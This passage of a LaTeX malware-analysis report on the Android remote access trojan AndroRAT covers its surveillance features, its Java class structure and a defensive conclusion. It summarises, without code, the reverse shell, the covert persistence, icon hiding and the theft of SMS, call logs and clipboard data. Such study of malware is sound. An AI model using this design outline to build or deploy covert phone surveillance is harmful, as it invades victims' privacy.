      
\includegraphics[width=0.6\linewidth]{picInDumps.png}
      \caption{Captured image stored locally}
    \end{figure}
    \begin{figure}[h!]
      \centering
      
\includegraphics[width=0.6\linewidth]{audioStartStop.png}
      \caption{Starting and stopping audio recording}
    \end{figure}
\end{itemize}

\subsection{Call Logs and SMS Logs}
AndroRAT enables browsing of call logs and SMS logs from the target device:
\begin{itemize}
    \item \textbf{Call Control:} Users can retrieve call logs from the target device, which are saved locally.
    \begin{figure}[h!]
      \centering
      
\includegraphics[width=0.6\linewidth]{importedSMS.png}
      \caption{Importing SMS logs}
    \end{figure}
    \begin{figure}[h!]
      \centering
      
\includegraphics[width=0.6\linewidth]{fileofSentSMS.png}
      \caption{File containing sent SMS logs}
    \end{figure}
    \item \textbf{SMS Control:} AndroRAT allows access to SMS messages, with the option to retrieve both inbox and sent messages.
\end{itemize}

\subsection{Opening Shell}
AndroRAT facilitates opening a shell on the attacker's device, providing an interactive command-line interface for further operations.

\subsection{Other Tested Features}
Apart from the mentioned functionalities, AndroRAT supports additional features:
\begin{itemize}
    \item \textbf{Vibration Control:} Users can command the target device to vibrate a specified number of times.
    \item \textbf{Location Retrieval:} AndroRAT can retrieve the current location of the target device.
    \item \textbf{SIM Details:} Users can access details of all SIM cards present in the target device.
\end{itemize}

\section{High Level Overview of Source Codes}

\subsection{MainActivity.java}
The \texttt{MainActivity.java} class performs the following tasks:
\begin{itemize}
    \item Logs the IP address and port from the \texttt{Config} class.
    \item Initiates an instance of the \texttt{tcpConnection} class to establish a reverse shell connection by executing its \texttt{doInBackground} method with the specified IP address and port.
    \item Hides the app icon from the device's launcher if the \texttt{Config} flag is set to true.
\end{itemize}

\subsection{tcpConnection.java}
The \texttt{tcpConnection.java} class encompasses the following functionalities:
\begin{itemize}
    \item Defines an \texttt{AsyncTask} called \texttt{tcpConnection} that runs in the background and handles the reverse shell connection.
    \item Imports necessary Android libraries and custom payloads for various functions such as camera control, audio recording, SMS retrieval, and more.
    \item Maintains a persistent connection loop, attempting to connect to a specified IP address and port indefinitely.
    \item Sets up input and output streams to communicate with the remote server upon connection establishment.
    \item Listens for commands from the server and performs actions based on the received commands, including taking pictures, running shell commands, retrieving device information, managing SMS messages, etc.
    \item Handles exceptions and errors during the connection, attempting to re-establish the connection in case of failure.
    \item Supports background services and job scheduling for different Android versions.
\end{itemize}

\subsection{broadcaseReceiver.java}
The \texttt{broadcaseReceiver.java} class serves as a BroadcastReceiver designed to monitor the status of the \texttt{mainService} and restart it if it's not already running. This ensures that the specified background service is kept alive in the Android application.

\subsection{functions.java}
The \texttt{functions.java} class comprises a collection of utility functions in an Android application, including:
\begin{itemize}
    \item \texttt{deviceInfo()}: Retrieves various device information such as manufacturer, OS version, product, model, brand, device name, and host.
    \item \texttt{readFromClipboard()}: Reads text data from the clipboard, if available, and returns it as a string.
    \item \texttt{jobScheduler()}: Schedules periodic jobs using the Android JobScheduler API to run background tasks at regular intervals.
    \item \texttt{getPhoneNumber()}: Retrieves information about the SIM card(s) installed on the device, including call state, IMEI/MEID numbers, mobile number, serial number, SIM operator name, SIM state, and SIM country ISO code.
    \item \texttt{getScreenUp()}: Wakes up the device and shows the screen by adding specific flags to the activity's window.
    \item \texttt{hideAppIcon()} and \texttt{unHideAppIcon()}: Programmatically hide and unhide the application's icon from the device's launcher, respectively.
    \item \texttt{overlayChecker()}: Checks whether the application has overlay permission and provides instructions to enable it if necessary.
    \item \texttt{createNotiChannel()}: Creates a notification channel for the application, primarily for Android versions 8.0 (Oreo) and higher.
\end{itemize}

\section{Conclusion}
In conclusion, the analysis of AndroRAT reveals the intricate landscape of mobile device security threats and the sophisticated tools employed by malicious actors. The investigation into AndroRAT's installation process, features, and code structure underscores the urgent need for robust security measures and user awareness.

The installation process of AndroRAT, encompassing both build and shell modes, highlights the ease with which such tools can be deployed on target devices. By leveraging Git cloning and Python dependencies, attackers can quickly set up AndroRAT instances to infiltrate Android devices covertly.

Moreover, the features of AndroRAT, including its full persistent backdoor, invisible icon on install, and extensive surveillance capabilities, pose significant risks to user privacy and data security. From capturing audio, video, and images to browsing call logs and SMS messages, AndroRAT empowers attackers with comprehensive access to sensitive information.

Furthermore, the high-level code overview sheds light on the intricate workings of AndroRAT's Java classes, illustrating how each component contributes to the tool's functionality. From the MainActivity initiating the reverse shell connection to the tcpConnection handling communication with the remote server, the code structure reveals the sophistication of AndroRAT's design.

In light of these findings, it is imperative for mobile users and organizations to implement proactive security measures, including regular software updates, antivirus software, and user education programs. Additionally, developers must prioritize security in the design and implementation of mobile applications to mitigate the risks posed by remote access tools like AndroRAT.

Overall, the analysis of AndroRAT serves as a stark reminder of the evolving threat landscape in the mobile security domain and the critical importance of vigilance and preparedness in safeguarding against emerging threats. By understanding the capabilities and implications of tools like AndroRAT, stakeholders can take proactive steps to protect their devices and data from exploitation by malicious actors.

\end{document}
